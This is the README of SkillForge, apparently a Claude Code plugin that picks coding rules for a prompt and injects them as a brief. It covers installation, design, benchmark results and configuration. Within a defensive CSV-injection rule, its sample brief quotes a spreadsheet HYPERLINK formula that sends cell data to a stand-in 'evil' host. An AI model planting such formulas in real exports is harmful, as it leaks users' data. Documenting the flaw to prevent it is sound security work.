




<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="assets/readme/hero-dark.svg">
    
  </picture>
</p>

<p align="center">
  <a href="https://github.com/Sardeen07/Skillforge/actions/workflows/ci.yml"></a>
  
  
  
  <a href="LICENSE"></a>
</p>

A large skill library gives Claude more guidance, but also more to sort through. Claude has to identify the relevant skills and may load an entire module when it only needs a few rules.

SkillForge is a Claude Code plugin that handles rule selection before Claude starts. It searches a local library of 757 coding rules using your prompt and project stack, then delivers a targeted brief within a configurable budget of 2,400 estimated tokens by default. When nothing clearly applies, it adds no task-specific guidance.

> [!NOTE]
> **Early, with one promising result.** On three tasks Claude fails without help, Claude with the SkillForge hook solved 11 of 15 attempts, against 5 with native skills. The tasks were picked to give SkillForge its best chance, so this shows delivery *can* matter, not that it usually does. [Details and weak spots](#whats-measured-so-far).

## Install

**1. Add the plugin.** In Claude Code, run these as two separate prompts:

```
/plugin marketplace add Sardeen07/Skillforge
```
```
/plugin install skillforge@skillforge
```

You need Python 3.9 or later on your PATH (`python3`, `python` or `py`). The stock macOS `python3` works. There are no packages to install.

**2. Turn on the hook.**

> [!IMPORTANT]
> Installing alone gives you only the SkillForge skill, which Claude calls when it decides to. The automatic hook, which the benchmark measured, stays off until you set `SKILLFORGE_HOOK` to `brief`.

To turn it on for every session, add the `env` key to `~/.claude/settings.json`, then start a new session. If the file already has settings, merge this key into it rather than replacing the file:

```json
{
  "env": {
    "SKILLFORGE_HOOK": "brief"
  }
}
```

To try it for one terminal session only, set it in your shell before starting Claude Code. On macOS, Linux or WSL, run `SKILLFORGE_HOOK=brief claude`. In Windows PowerShell, run `$env:SKILLFORGE_HOOK = "brief"`, then `claude`.

**3. Check it.** Start a new Claude Code session in an empty folder and send this prompt:

```
Our background job workers block each other when pulling jobs from the Postgres queue. Fix the worker loop.
```

Then run `/forge-status`. It should list `postgres/lock-skip-locked` as delivered, with the reason. If it shows no brief, verify that the hook is enabled and Python is available. See [Troubleshooting](docs/TROUBLESHOOTING.md) if the problem persists. Rules already delivered in a session are not sent again, which is why a fresh session matters here.

**Privacy note:** SkillForge logs prompt text locally to `~/.skillforge/compose.log`. The log is not currently rotated. See the [FAQ](#faq) for details.

To remove SkillForge, uninstall it from the `/plugin` menu. To see what it picks without installing anything, see [Try it](#try-it).

## How it works

<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="assets/readme/how-it-works-dark.svg">
    
  </picture>
</p>

- **A rule is the unit.** Each rule is one reference file, such as `postgres/lock-skip-locked`, or one section of a step-by-step guide.
- **The search is local and repeatable.** It ranks rules with BM25, a standard keyword-ranking formula. The same prompt, project context, library version and configuration produce the same selection. Within one session, rules already delivered are not sent again until the context is compacted, resumed or cleared.
- **Your stack shapes the order, not the pick.** Technologies named in the prompt (`k8s`, `PostgreSQL`) or found in manifests like `package.json` or `go.mod` can move a rule up or down. They never select a rule by themselves.
- **A rule has to earn its place.** It must clear a score threshold and match at least two words in the prompt. If the evidence is split between technologies, it guesses none of them. If a later step of a procedure is picked, the steps before it come too.

The full design is in [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md).

## One prompt, start to finish

<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="assets/readme/example-dark.svg">
    
  </picture>
</p>

This is the `csv-export` task from the benchmark. The prompt asks Claude to fix commas, quotes and line breaks in a CSV file that finance opens in Excel. The hidden test also checks something the prompt never names: a cell that starts with `=`, `+`, `-` or `@` runs as a formula when Excel opens the file. Unguided Claude missed it on every attempt.

SkillForge delivered `security/csv-formula-injection` with the coding core and one other rule, in a brief of 541 estimated tokens. With that brief, Claude solved the task on all 5 attempts. Without guidance, or with native skills, it solved none. This is one of the three hand-picked tasks and the rule was written for it, so the example shows the mechanism working, not how often it works.

The other pick, `sql/select-only-needed-columns`, was not needed, which is typical of real task prompts (see [precision](#without-a-model)).

<details>
<summary><strong>The actual brief</strong></summary>
<br>

The complete hook output for this prompt, verbatim (2,162 characters, 541 estimated tokens). To reproduce it, see [Try it](#try-it).

```text
# SkillForge brief: coding
Delivery: rules. Budget: 2400 estimated tokens (characters / 4).

## coding-core / core/coding.md

Coding core (applies to every coding task):
- Read the relevant existing code before changing it, and follow its patterns.
- Before writing new code, check in order: is it needed at all; does the codebase already have it; does the standard library or platform provide it; does an existing dependency cover it. Write new code last, and keep it minimal.
- Keep the change proportional to the request. No speculative abstractions, options, or refactors.
- Never trade away input validation, security, accessibility, data safety, or required behavior to make code shorter.
- Verify before claiming done: run the relevant tests or a direct check and report the actual result. If you could not verify, say so.
- If a fix fails twice, stop guessing and investigate the root cause.

## security/csv-formula-injection: Neutralize spreadsheet formulas in exported CSV cells
_SkillForge-authored (MIT) · evidence: untested_

Spreadsheet programs evaluate a cell that starts with `=`, `+`, `-`, `@`, a tab or a carriage return as a formula, so a user-controlled value such as `=HYPERLINK("http://evil/?"&A1,"Click")` runs when finance opens the export. Prefix such text cells with a single quote (`'`), and write rows with a CSV library (`csv.writer`, not string joins) so commas, quotes and newlines are quoted. Apply it to every field a user can influence, not only names.
Reference: https://owasp.org/www-community/attacks/CSV_Injection

## sql/select-only-needed-columns: Select only the columns you need
_SkillForge-authored (MIT) · evidence: untested_

`SELECT *` transfers unused data, breaks when columns are added or reordered, and prevents index-only scans. List columns explicitly; for hot queries, an index containing all selected columns can answer without touching the table.
Reference: https://use-the-index-luke.com/sql/clustering/index-only-scan-covering-index

Apply guidance only where it fits the task; preserve required behavior. Examples are not complete application designs. Only the units below were delivered in this call.

```
</details>

## SkillForge vs native skills

Both start from the same library. The difference is who picks the rules, and when.

<table>
  <thead>
    <tr><th></th><th>Native skills</th><th>SkillForge hook</th></tr>
  </thead>
  <tbody>
    <tr><td><strong>Always in context</strong></td><td>A listing of all 66 module descriptions, about 2,669 estimated tokens</td><td>One skill description, about 66 estimated tokens</td></tr>
    <tr><td><strong>Who picks</strong></td><td>Claude, during the task, if it notices a skill applies</td><td>SkillForge, before Claude starts, from the prompt and project files</td></tr>
    <tr><td><strong>What gets loaded</strong></td><td>Whole modules</td><td>Single rules, within an estimated token budget</td></tr>
    <tr><td><strong>When nothing fits</strong></td><td>The listing stays in context anyway</td><td>Nothing task-specific is added</td></tr>
    <tr><td><strong>Added per task prompt</strong> <sub>offline estimate, 41 prompts</sub></td><td>About 4,972 estimated tokens, if Claude loads exactly the right modules</td><td>About 692 estimated tokens on average</td></tr>
  </tbody>
</table>

More guidance isn't always better guidance, but less isn't automatically better either. A smaller brief helps only if it holds the rule that matters. In the first comparison, Claude called a native skill in only 1 of 15 sessions, and that session still failed. The native-skills configuration solved one of the three tasks (`unique-usernames`, on all 5 attempts) without explicitly loading a skill.

## What's measured so far

### With a model

Opus 5.5 already solves 40 of the 43 benchmark tasks without help. Those tasks leave little room to improve the full-solve rate, so the first comparison used the three it fails every time.

<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="assets/readme/comparison-dark.svg">
    
  </picture>
</p>

Mean cost per session with the hook was about 21% lower than with native skills, and about 18% higher than with no guidance.

> [!IMPORTANT]
> This is the most favorable setting for SkillForge, chosen on purpose to test whether delivery can matter at all. The three tasks were designed around rules in this library, and one rule was written for its task. Fifteen attempts on three tasks are not independent evidence of general gains: the hook vs native difference (p = 0.066) is not significant at 0.05. Full method: [docs/BENCHMARKS.md §6](docs/BENCHMARKS.md#6-first-controlled-comparison-2026-11-18-none-vs-native-vs-sf-hook).

### Without a model

Offline runs of the search alone. *Recall@4* is the share of needed rules in the top four picks. *Precision* is the share of picked rules that were actually needed.

<table>
  <thead>
    <tr><th>Test set</th><th align="right">Cases</th><th align="right">Recall@4</th><th align="right">Precision</th><th align="right">Correctly added no rules</th></tr>
  </thead>
  <tbody>
    <tr><td>Development sets (dev, mixed, security, performance)</td><td align="right">215</td><td align="right">79–90%</td><td align="right">64–76%</td><td align="right">–</td></tr>
    <tr><td><strong>Held-out set</strong>, frozen before tuning</td><td align="right">74</td><td align="right"><strong>90.6%</strong></td><td align="right"><strong>74.4%</strong></td><td align="right"><strong>9 / 10</strong></td></tr>
    <tr><td>Real task prompts</td><td align="right">41</td><td align="right">64.6%</td><td align="right">26.5%</td><td align="right">–</td></tr>
    <tr><td>Unrelated prompts</td><td align="right">55</td><td align="right">–</td><td align="right">–</td><td align="right">49 / 55</td></tr>
    <tr><td>Vague prompts</td><td align="right">30</td><td align="right">–</td><td align="right">–</td><td align="right">30 / 30</td></tr>
  </tbody>
</table>

The main weakness is on real task prompts. There, about three in four picked rules were not needed (26.5% precision), and about a third of needed rules were missed. That is the more honest signal, and improving it is the current focus.

<sub>Library v3, measured 2026-11-18. The held-out set was written by the same author as the rules, so it likely overstates real-world retrieval.</sub>

Guidance each delivery option adds, averaged over the 41 task prompts. *Labeled needs covered* is the share of rules a reviewer marked as needed that reached Claude. For native skills and the catalog it is assumed, so treat those 100% figures as upper bounds.

<table>
  <thead>
    <tr><th>Delivery</th><th align="right">Mean added tokens</th><th align="right">Labeled needs covered</th></tr>
  </thead>
  <tbody>
    <tr><td>Native skills (same library)</td><td align="right">4,972</td><td align="right">100% <sub>assumes perfect loading</sub></td></tr>
    <tr><td>SkillForge catalog</td><td align="right">1,277</td><td align="right">100% <sub>assumes correct fetches</sub></td></tr>
    <tr><td><strong>SkillForge hook brief</strong></td><td align="right"><strong>692</strong></td><td align="right"><strong>66%</strong> <sub>measured</sub></td></tr>
  </tbody>
</table>

<sub>Estimated as characters ÷ 4 by <code>npm run cost</code>. This is input text size, not model usage or cost.</sub>

Next: a broader comparison on more tasks and models, human review of the authored rules, and a held-out set from someone who has not read the library. See [STATUS.md](STATUS.md).

## Try it

See what SkillForge would pick without installing the plugin. You need Node, for the launcher `forge/py.mjs` that finds a working Python, and a clone:

```sh
git clone https://github.com/Sardeen07/Skillforge.git && cd Skillforge
```

```sh
# Rules for a multi-technology prompt
node forge/py.mjs plugin/skills/skillforge/scripts/compose.py "Build a scalable Next.js application with PostgreSQL, Redis caching, JWT authentication, and optimized database queries."

# Browse the library
node forge/py.mjs plugin/skills/skillforge/scripts/compose.py --catalog          # every module
node forge/py.mjs plugin/skills/skillforge/scripts/compose.py --catalog redis    # one module's rules
node forge/py.mjs plugin/skills/skillforge/scripts/compose.py --rule postgres/data-pagination

# What the last brief delivered, and why
node forge/py.mjs plugin/skills/skillforge/scripts/compose.py --status
```

The first command returns the coding core plus rules such as `react-performance/server-cache-react`, `redis/ttl-on-cache-keys` and `postgres/data-n-plus-one`. Anything dropped is listed in the log with the reason.

## Delivery modes

Most people only need `brief` (see [Install](#install)). The other modes exist because how rules should reach Claude is still an open question, and the benchmarks compare them.

<table>
  <thead>
    <tr><th>Mode</th><th>What enters Claude's context</th><th>When to use it</th></tr>
  </thead>
  <tbody>
    <tr><td><code>off</code> <sub>default</sub></td><td>Only the SkillForge skill. Claude calls it when it decides to.</td><td>Skill-only operation. No automatic injection.</td></tr>
    <tr><td><code>brief</code></td><td>A hook adds the selected rules to each prompt that matches.</td><td>Recommended automatic mode.</td></tr>
    <tr><td><code>catalog</code></td><td>A hook adds a short module catalog once. Claude fetches a module or specific rules by ID.</td><td>You want Claude to choose, with a map of what exists.</td></tr>
    <tr><td><code>fixed</code></td><td>A hook adds a fixed rule list.</td><td>Benchmark experiments only.</td></tr>
  </tbody>
</table>

Injecting text only puts it in context. It does not prove Claude used it.

## The library

757 rules in 66 modules plus the coding core. Every rule records where it came from, its license and its evidence status.

| Source | Modules | Rules | Notes |
|---|---:|---:|---|
| Authored packs | 60 | 581 | Written for SkillForge (MIT). Each rule cites the official docs or standard it was checked against. Drafted with Claude, **pending human review**. |
| [vercel-labs/agent-skills](https://github.com/vercel-labs/agent-skills) | 3 | 114 | react-performance @ `063bee9`, react-native and react-composition @ `1a2c79d` (MIT) |
| [supabase/agent-skills](https://github.com/supabase/agent-skills) | 1 | 31 | postgres @ `8331f91` (MIT) |
| [obra/superpowers](https://github.com/obra/superpowers) | 2 | 31 | systematic-debugging and test-driven-development @ `5bf4e78` (MIT) |

<details>
<summary><strong>What the library covers</strong></summary>
<br>

| Area | Covered |
|---|---|
| Languages | Python · JavaScript · TypeScript · Java · C++ · C · Rust · Go · Swift · Kotlin · PHP · Ruby · C# · SQL |
| Front end | React · Next.js · Vue · Angular · Svelte · HTML/CSS · Tailwind · accessibility · web performance · state and component architecture |
| Back end | Node/Express · FastAPI · Django · Flask · Spring Boot · REST and GraphQL API design · auth · distributed systems · caching · background jobs |
| Data | PostgreSQL · MySQL · SQLite · MongoDB · Redis · database design |
| AI and ML | prompting · RAG · embeddings · vector search · agents · tool calling · evaluation · inference · fine-tuning · context management · AI security · ML engineering |
| Infrastructure | Docker · Kubernetes · CI/CD · GitHub Actions · AWS · GCP · Azure · Terraform · Linux · networking · observability |
| Practice | architecture · security · testing · TDD · debugging · code quality · review · concurrency · error handling · profiling · memory |
| Mobile | SwiftUI/UIKit · Android · Flutter · React Native · mobile architecture |
| Other | WebSockets/SSE · gRPC/Protobuf · internationalization/Unicode |

Imported modules keep their original text. Their license and attribution are recorded in `SOURCE.json`. They are stored as `MODULE.md`, not `SKILL.md`, so Claude Code never registers them as separate skills. `trailofbits/skills` (CC-BY-SA-4.0) and `anthropics/skills` (no repository license) were considered and not imported.

To add rules, see [docs/CONTRIBUTING_LIBRARY.md](docs/CONTRIBUTING_LIBRARY.md).
</details>

## Configuration

<details>
<summary><strong>Environment variables</strong></summary>
<br>

| Variable | Values | Default |
|---|---|---|
| `SKILLFORGE_HOOK` | `off`, `brief`, `catalog`, `fixed` | `off` |
| `SKILLFORGE_HOOK_BUDGET` | Estimated tokens per brief (characters ÷ 4), 200 to 50,000. Invalid values fall back to the default. | `2400` |
| `SKILLFORGE_STACK` | Comma-separated technologies. Overrides detection from manifests. | detected |
| `SKILLFORGE_LOG` | Where selection logs go. Session state is kept in a `sessions/` folder beside it. | `~/.skillforge/compose.log` |
| `SKILLFORGE_SYNONYM_WEIGHT` | Opt-in query expansion. Measured: a small recall gain with more false positives. | `0` |

**Why 2,400?** Claude Code is reported to cut hook output above 10,000 characters down to a preview. That has not been reproduced here. 2,400 estimated tokens is about 9,600 characters, so the budget is a cautious setting, not a verified limit.
</details>

<details>
<summary><strong>If something goes wrong</strong></summary>
<br>

The hook never blocks a prompt. With no usable Python, or on an internal error, it prints nothing and exits 0. Errors are written to the log. Run `/forge-status` to see what the last brief delivered and why.

On Windows, `python3` is often a Microsoft Store alias that prints "Python was not found" **and exits 0**. Do not hardcode `python3` in anything the agent runs. Use `forge/py.mjs` or a real interpreter such as `py -3`.

More in [docs/TROUBLESHOOTING.md](docs/TROUBLESHOOTING.md).
</details>

## FAQ

**Does it send my code anywhere?**
SkillForge itself doesn't. Its search runs on your machine with no network access, API key or model calls, in a few milliseconds after load and about 0.2 s end to end through the hook. Claude Code still sends your conversation, including any brief, to its model provider as usual. SkillForge keeps a local log of each selection, including your prompt text, at `~/.skillforge/compose.log`, plus small per-session state files beside it. The log is not rotated. Set `SKILLFORGE_LOG` to move it.

**Does the hook setting stick between sessions?**
If you set it in `~/.claude/settings.json`, yes. Claude Code applies it to every session. A variable set in your shell lasts only for that terminal session.

**Which modes exist besides coding?**
Only `coding` for now. `/forge-mode` will say so if you ask for another.

## For contributors

<details>
<summary><strong>Run the tests and benchmarks</strong></summary>
<br>

```sh
python -m pip install -r requirements-dev.txt   # optional: embedded Postgres for one grader (use a .venv)

npm test                     # unit, integration, hook, runner, scanner and grader tests
npm run validate:library     # schema, provenance, licenses, duplicates, relations, safety
npm run retrieval:suite      # recall@4, precision, NDCG@4, abstention, brief size, latency on the dev sets
npm run retrieval:heldout    # frozen held-out set: report once per retriever version, never tune on it
npm run sweep                # parameter sweep over the dev sets only
npm run graders              # each task grader passes its reference and fails its broken variants
npm run cost                 # guidance tokens each delivery arm adds, per task prompt
npm run ab -- --dry-run --arms none,native,skillforge,sf-hook,sf-catalog,sf-expert
```
</details>

<details>
<summary><strong>The A/B runner</strong></summary>
<br>

`forge/ab.py` runs real Claude Code sessions in isolated throwaway projects and compares these arms:

| Arm | What Claude gets |
|---|---|
| `none` | No guidance |
| `native` | The same modules as ordinary skills |
| `skillforge` | The SkillForge skill only |
| `sf-modules` | Whole modules instead of rules (delivery ablation) |
| `sf-hook` | The hook brief |
| `sf-catalog` | The catalog, with fetches |
| `sf-expert` | Rules a developer chose for the task in advance, delivered like `sf-hook` |

For each run it records token counts (input, output, cached), cost, turns, per-check grader results and the rules each arm received. A paid run needs an explicit `--model`, a behavioral grader, and a reviewed expert list for `sf-expert`. `--freeze` locks the conditions across reruns. Read [docs/BENCHMARK_PROTOCOL.md](docs/BENCHMARK_PROTOCOL.md) first.
</details>

<details>
<summary><strong>How the library is built</strong></summary>
<br>

The pipeline goes from a curation database to a versioned export to a small runtime.

1. `forge/sf.py` pins each source at an exact commit and records it in a local SQLite database.
2. It exports `plugin/library/index.json`, including the relations between rules.
3. The plugin reads only that export.

Each rule's metadata is declared by hand in `forge/curation/coding.json`: the technologies it applies to, the steps it `requires`, what it `conflicts` with, its provenance and its evidence status. To add or change a module, edit that file, then run `import` and `export` again. See [docs/DATABASE.md](docs/DATABASE.md).
</details>

<details>
<summary><strong>Repo layout</strong></summary>
<br>

| Path | What's in it |
|---|---|
| `plugin/` | What users install: hook, skill, retriever and library |
| `forge/` | Library builder (`sf.py`), A/B runner (`ab.py`), routing scorecard, grader validator, skill scanner (`scan.py`) and crawler stub |
| `benchmarks/` | Routing cases and coding tasks with hidden graders. Reference solutions and expert picks sit outside the task folders so the agent never sees them. |
| `tests/` | Tests for retrieval, delivery, the hook, the runner and the builder |
| `docs/` | Protocol and database notes. `docs/history/` holds earlier handoffs and reviews. |

Where things stand: [STATUS.md](STATUS.md). What is not built yet: [ROADMAP.md](ROADMAP.md).
</details>

## License

[MIT](LICENSE). Imported modules keep their own licenses, recorded in each `SOURCE.json`.
